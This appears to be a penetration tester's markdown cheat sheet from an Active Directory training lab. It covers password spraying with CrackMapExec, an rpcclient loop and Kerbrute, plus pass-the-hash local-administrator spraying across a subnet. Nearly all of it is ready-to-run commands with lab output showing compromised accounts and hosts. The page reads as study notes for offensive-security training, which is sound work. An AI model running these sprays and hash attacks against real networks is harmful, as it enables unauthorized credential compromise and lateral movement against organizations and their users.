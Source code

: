 ## CrackMapExec
```bash
# Password spraying
# -u : username
# -p : password
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 

# Validate credentials
# -u : username
# -p : password
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```
#### Local Admin Spraying with CrackMapExec (Dangerous !)
`Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`. By default, without the local auth option set, the tool will attempt to authenticate using the current domain, which could quickly result in account lockouts.
```bash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

## RPCClient
An important consideration is that a valid login is not immediately apparent with rpcclient, with the response Authority Name indicating a successful login. We can filter out invalid login attempts by grepping for Authority in the response.
```bash
# -U : username
# -c : command
# 172.16.5.5 : DC
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
Account Name: sgage, Authority Name: INLANEFREIGHT
Account Name: mholliday, Authority Name: INLANEFREIGHT
Account Name: tjohnson, Authority Name: INLANEFREIGHT
```

## Kerbrute
```bash
# -d : domaine name
# --dc : DC IP
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 11/24/23 - Ronnie Flathers @ropnop

2023/11/24 11:31:26 >  Using downgraded encryption: arcfour-hmac-md5
2023/11/24 11:31:26 >  Using KDC(s):
2023/11/24 11:31:26 >  	172.16.5.5:88

2023/11/24 11:31:26 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1

2023/11/24 11:31:26 >  Done! Tested 21 logins (1 successes) in 0.021 seconds
```